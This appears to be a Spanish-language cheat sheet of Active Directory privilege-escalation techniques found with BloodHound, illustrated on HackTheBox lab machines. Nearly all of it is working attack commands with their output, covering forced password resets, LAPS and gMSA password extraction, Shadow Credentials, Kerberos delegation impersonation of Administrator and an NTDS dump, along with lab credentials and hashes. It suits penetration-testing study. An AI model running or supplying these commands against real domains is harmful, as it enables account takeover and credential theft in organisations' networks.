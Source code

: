 # BloodHound

### Uso de BloodHound-python
```null
bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192 -c All
```

### Inicialización Neo4j
```null
sudo neo4j console
bloodhound &>/dev/null & disown
```

### SharpHound Inyector
```null
PS C:\Temp> .\SharpHound.exe -c All
```

## Abuso de ForceChangePassword

### Modificación de contraseña por RPC
```null
rpcclient -U blackfield/support 10.10.10.192
rpcclient $> setuserinfo audit2020 23 H@CKTHEB0X#
```

## Abuso AddKeyCredentialLink 

### Uso de Invoke-Whisker (Obtención Hash NT)

```null
PS C:\Temp> Invoke-Whisker -Command "add /target:sflowers"
```

```null
.\Rubeus.exe asktgt /user:sflowers /certificate:<CERTIFICATE>
```

## Abuso ReadLAPSPassword

```null
*Evil-WinRM* PS C:\Temp> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Temp> $SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
*Evil-WinRM* PS C:\Temp> $Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword)
*Evil-WinRM* PS C:\Temp> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -PrincipalIdentity 'JDgodd'
*Evil-WinRM* PS C:\Temp> Add-DomainGroupMember -Identity 'Core Staff' -Members 'JDgodd' -Credential $Cred
```

### Extraer credenciales de Administradores locales con LDAP

```null
ldapsearch -H ldap://10.10.11.158 -b 'DC=streamIO,DC=htb' -x -D JDgodd@streamio.htb -w 'JDg0dd1s@d0p3cr3@t0r' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
# extended LDIF
#
# LDAPv3
# base <DC=streamIO,DC=htb> with scope subtree
# filter: (ms-MCS-AdmPwd=*)
# requesting: ms-MCS-AdmPwd 
#

# DC, Domain Controllers, streamIO.htb
dn: CN=DC,OU=Domain Controllers,DC=streamIO,DC=htb
ms-Mcs-AdmPwd: 4)(6&h9+7]QY+o

# search reference
ref: ldap://ForestDnsZones.streamIO.htb/DC=ForestDnsZones,DC=streamIO,DC=htb

# search reference
ref: ldap://DomainDnsZones.streamIO.htb/DC=DomainDnsZones,DC=streamIO,DC=htb

# search reference
ref: ldap://streamIO.htb/CN=Configuration,DC=streamIO,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```

## Abuso WriteOwner

### Crear objeto y modificar las ACLs

```null
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Import-Module .\PowerView.ps1 
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -Rights ResetPassword -PrincipalIdentity tom
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $SecPassword = ConvertTo-SecureString 'pwned123$!' -AsPlainText -Force             
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -Identity claire -AccountPassword $SecPassword 
```

## Abuso WriteDacl

### Agregar usuario a un grupo

```null
net group Backup_Admins claire /add
```


## Abuso ReadGMSAPassword

![image](https://rubbxalc.github.io/writeups/assets/img/Intelligence-htb/4.png)

### Desde binario externo

```null
PS C:\Temp> .\GMSAPasswordReader.exe --accountname bir-adfs-gmsa --domainname search.htb
Calculating hashes for Current Value
[*] Input username             : BIR-ADFS-GMSA$
[*] Input domain               : SEARCH.HTB
[*] Salt                       : SEARCH.HTBBIR-ADFS-GMSA$
[*]       rc4_hmac             : E1E9FD9E46D0D747E1595167EEDCEC0F
[*]       aes128_cts_hmac_sha1 : BBCD2446765F390C680CDA31A9FC1783
[*]       aes256_cts_hmac_sha1 : ECAED51920F8677C5846154F69267FE4875543727C7032690016F7947A8A6F94
[*]       des_cbc_md5          : 3843029E088FB983
```

### Con Powershell

```null
PS C:\Temp> $gmsa = Get-ADServiceAccount -Identity 'bir-adfs-gmsa' -Properties 'msDS-ManagedPassword'
PS C:\Temp> $mp = $gmsa.'msDS-ManagedPassword'
PS C:\Temp> $pass = ConvertFrom-ADManagedPasswordBlob $mp
PS C:\Temp> ConvertTo-NTHash -Password $pass.SecureCurrentPassword 
e1e9fd9e46d0d747e1595167eedcec0f 
PS C:\Temp> ConvertFrom-ADManagedPasswordBlob $mp
```

```null
PS C:\Temp> $SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
PS C:\Temp> $cred = New-Object System.Management.Automation.PSCredential('search.htb\bir-adfs-gmsa',$SecPass)
PS C:\Temp> Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { whoami }
search\bir-adfs-gmsa$ 
```

### De forma remota

```null
python3 gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -l 10.10.10.248 -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::4eded24079fe2667c67f2b43fd6cb57b
svc_int$:aes256-cts-hmac-sha1-96:3f07249f66a3678529bc87b0d6bce206d86ef0e5ed00f488d66751810c722817
svc_int$:aes128-cts-hmac-sha1-96:b8173f21d39ccd3e047ea12c2f791ab4
```

## Abuso de AllowedToDelegate

Esto significa que tengo la capacidad de impersonar a un usuario

![image](https://rubbxalc.github.io/writeups/assets/img/Intelligence-htb/6.png)

```null
getST.py intelligence.htb/svc_int -hashes :4eded24079fe2667c67f2b43fd6cb57b -impersonate Administrator -spn WWW/dc.intelligence.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

## Abuso de GenericWrite

### Conversión a un usuario en Kerberoasteable

```null
*Evil-WinRM* PS C:\Users\sbauer\Documents> Get-AdUser jorden | Set-ADAccountControl  -doesnotrequirepreauth $true
```

## Abuso de DCSync

### Dumpear NTDS

```null
crackmapexec smb 10.10.10.103 -u 'mrlky' -p 'Football#7' --ntds
```

## Abuso de AddKeyCredentialLink

### Añadir Principal para crear unas Shadow Credentials

```null
PS C:\Temp> Invoke-Whisker -Command "add /target:sflowers"
```

Se ejecutará el Rubeus para obtener un hash NTLM y hacer PassTheHash

